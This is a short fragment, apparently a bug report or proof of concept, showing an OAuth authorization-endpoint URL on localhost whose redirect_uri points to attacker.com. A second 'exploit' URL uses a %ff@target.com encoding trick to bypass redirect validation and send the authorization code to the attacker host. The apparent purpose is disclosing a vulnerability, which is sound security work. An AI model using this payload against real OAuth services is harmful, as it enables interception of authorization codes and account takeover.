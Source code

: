 use the browser to connect to
http://localhost:8080/oauth/authorize?response_type=code&client_id=client_app&redirect_uri=http://www.attacker.com&scope=any&client_secret=123456
enter pass and username (client_app - 123456)
ok retry again with this exploit, you will it will pass  http://localhost:8080/oauth/authorize?response_type=code&client_id=client_app&redirect_uri=http://www.attacker.com%ff@target.com&scope=any&client_secret=123456
